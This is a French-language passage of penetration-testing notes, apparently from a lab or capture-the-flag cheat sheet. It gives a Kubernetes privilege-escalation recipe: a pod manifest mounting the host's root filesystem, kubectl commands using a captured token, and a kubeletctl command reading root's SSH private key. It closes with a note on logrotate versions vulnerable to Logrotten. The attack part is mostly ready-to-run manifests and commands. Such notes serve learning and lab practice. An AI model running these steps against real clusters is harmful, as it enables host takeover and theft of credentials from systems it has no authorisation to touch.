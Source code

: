 3. Si privilèges GET CREATE et LIST sur pods alors possible de créer un conteneur et monter / dans /mnt/ par exemple

Privesc.yaml
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

4. Créer le pod

```shell
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
```

5. Vérifier qu'il tourne

```shell
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
```

6. Extraire clé privé RSA de root

```shell
kubeletctl --server 10.129.10.11 exec "cat /mnt/root/.ssh/id_rsa" -p privesc -c privesc
```




---
# LOGROTATE 

> [!TIP]
> Versions 3.8.6, 3.11, 3.15, 3.18 + permission d'écrire dans les fichiers de logs + logrotate lancé en root ou user privilégié ->  Vulnérable à Logrotten

Afficher version de logrotate

```sh
logrotate --version
```
